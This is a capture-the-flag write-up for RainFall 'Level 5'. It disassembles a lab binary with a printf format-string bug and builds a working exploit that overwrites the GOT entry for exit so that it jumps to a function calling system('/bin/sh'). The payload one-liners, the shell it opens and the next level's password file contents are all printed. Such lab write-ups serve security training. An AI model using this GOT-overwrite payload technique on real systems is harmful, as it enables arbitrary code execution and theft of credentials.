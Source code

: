 # Level 5

```gdb
(gdb) info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb) 


(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.
(gdb)
```


Ghidra :


```c
void o(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}

void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    /* WARNING: Subroutine does not return */
  exit(1);
}

void main(void)
{
  n();
  return;
}
```


Another printf format attack string, but this time, its a function we need to call to get our flag.

This might be tricky this time, as we dont have a target to edit, we must execute the o() function.

We can try overididing the exit function so it points to the o() function, lets do it.

Lets take o() address 0x080484a4.

134513828 - 4
= 134513824

And the address of exit 0x80483d0.

We try to overwrite exit, and not the return of main(), since obviously... We wont go back to back because of the exit

So we are going to overwrite exit with o address.

```sh
$ (python -c "print '\xd0\x83\x04\x08' + '%134513824x' + '%4\$n'"; cat) | ./level5
(...)
(...)
(...)
(...)
(...)
Segmentation fault (core dumped)
```

But it doesn't work, the address doesn't get changed, what's wrong ?

Basically i tried to overwrite the exit function, but there is thing call the GOT overwrite. (Global Offset Table)

It is used to cache the memory addresses of libc function, in order to avoid calling the hole library each time and external function is called.

Maybe the right addresses of exit is inside, lets check :

```
level5@RainFall:~$ objdump -R ./level5 

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
level5@RainFall:~$ 

```

Lets try with this address :

```sh

(python -c "print '\x38\x98\x04\x08' + '%134513824x' + '%4\$n'"; cat) | ./level5
(...)
(...)
(...)
(...)
(...)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

```

And here we go
